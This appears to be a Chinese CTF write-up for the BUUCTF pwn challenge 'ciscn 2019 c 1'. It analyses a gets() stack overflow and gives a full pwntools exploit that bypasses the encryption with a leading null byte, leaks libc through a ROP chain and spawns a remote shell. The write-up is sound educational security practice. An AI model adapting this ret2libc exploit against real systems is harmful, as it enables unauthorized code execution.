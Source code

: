 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 c 1
date: 2022-3-19 21:02:02
permalink: /pages/2e9547494524d18c
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 c 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_c_1
[*] '/root/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现明显漏洞，漏洞出现在输入1后进入的encrypt函数中，该函数如下

```c
int encrypt()
{
    size_t v0;  // rbx
    char s[48]; // [rsp+0h] [rbp-50h]
    __int16 v3; // [rsp+30h] [rbp-20h]
    memset(s, 0, sizeof(s));
    v3 = 0;
    puts("Input your Plaintext to be encrypted");
    gets(s);
    while (1)
    {
        v0 = (unsigned int)x;
        if (v0 >= strlen(s))
            break;
        if (s[x] <= 96 || s[x] > 122)
        {
            if (s[x] <= 64 || s[x] > 90)
            {
                if (s[x] > 47 && s[x] <= 57)
                    s[x] ^= 0xFu;
            }
            else
            {
                s[x] ^= 0xEu;
            }
        }
        else
        {
            s[x] ^= 0xDu;
        }
        ++x;
    }
    puts("Ciphertext");
    return puts(s);
}
```

## 思路分析

1. 目前信息
   - 栈上变量s处可写入任意长度数据
   - 本题无后门函数
1. 问题
   - s变量处写入的数据将会被后续代码加密导致无法使用
3. 解决思路
   - 加密部分使用了strlen() 函数该函数从字符串的开头位置依次向后计数，直到遇见`\0`，然后返回计时器的值。最终统计的字符串长度不包括`\0`，这里可以构造一个特殊的首位是`\0`的payload提前break掉，从而绕过加密。
   - 因为本题无可用后门函数，所以需要先泄露libc的版本和函数地址，接着再通过泄漏出的地址构造rop链劫持控制流以获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_c_1/ciscn_2019_c_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28284)
elf = ELF(pwnfile)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x400c83
encrypt_addr = elf.symbols['encrypt']
padding = 0x50+8
io.recvuntil('Input your choice!\n')
io.sendline(str(1))
payload = flat(['\0', 'a'*(padding-1), pop_rdi_ret,puts_got, puts_plt, encrypt_addr])
# 首位\0绕过加密
io.sendlineafter('\n', payload)
leak_puts_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
# 泄漏puts的地址
print("leak puts addr:{0}".format(hex(leak_puts_addr)))
libc = LibcSearcher('puts', leak_puts_addr)
# 泄漏libc版本
libcbase = leak_puts_addr-libc.dump('puts')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
ret = 0x4006b9
payload = flat(['\0', 'a'*(padding-1), ret,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('encrypted\n', payload)
io.recv()
io.interactive()
```